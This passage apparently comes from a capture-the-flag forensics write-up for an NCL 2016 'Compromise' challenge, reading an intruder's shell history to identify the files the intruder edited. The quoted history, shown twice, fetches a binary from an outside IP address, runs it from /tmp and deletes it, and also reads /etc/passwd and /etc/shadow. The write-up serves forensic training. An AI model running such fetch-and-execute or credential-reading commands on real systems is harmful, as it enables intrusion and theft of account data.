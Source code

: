 ```console
root@kali:~/Downloads/NCL-2016-Game2-Compromise/dir# cat .bash_history 
cd ~/docs
ls
vim 100 0 0.5 10 .csv
vim 100\ 0\ 0.5\ 10\ .csv
vim 100\ 0\ 4.0\ 20\ .csv
vim README.md
---snip---
whoami
killall -9 ttserve 
lynx -source http://216.242.103.2:8882/foo > /tmp/ttserve 
chmod 755 /tmp/ttserve 
cd /tmp 
./ttserve 
rm -rf /tmp/ttserve ./ttserve
netstat -plant
ps kill -9 12432
clear
ls
vim ~/.bashrc
vim /etc/hosts
cat /etc/passwd
cat /etc/shadow
ifconfig
nmap -sL -n 192.168.2.1/32 | grep 'Nmap scan report for' | cut -f 5 -d ' '
cd application/l
cd application/
ls
git diff
git status
git commit
git push origin master
cd ../
cat README.md
```

__Answer: vim ~/.bashrc__

--

__What is the second file the hacker modified the contents of?__

Same as above... just look at the next vim edit!

```console
root@kali:~/Downloads/NCL-2016-Game2-Compromise/dir# cat .bash_history 
cd ~/docs
ls
vim 100 0 0.5 10 .csv
vim 100\ 0\ 0.5\ 10\ .csv
vim 100\ 0\ 4.0\ 20\ .csv
vim README.md
---snip---
whoami
killall -9 ttserve 
lynx -source http://216.242.103.2:8882/foo > /tmp/ttserve 
chmod 755 /tmp/ttserve 
cd /tmp 
./ttserve 
rm -rf /tmp/ttserve ./ttserve
netstat -plant
ps kill -9 12432
clear
ls
vim ~/.bashrc
```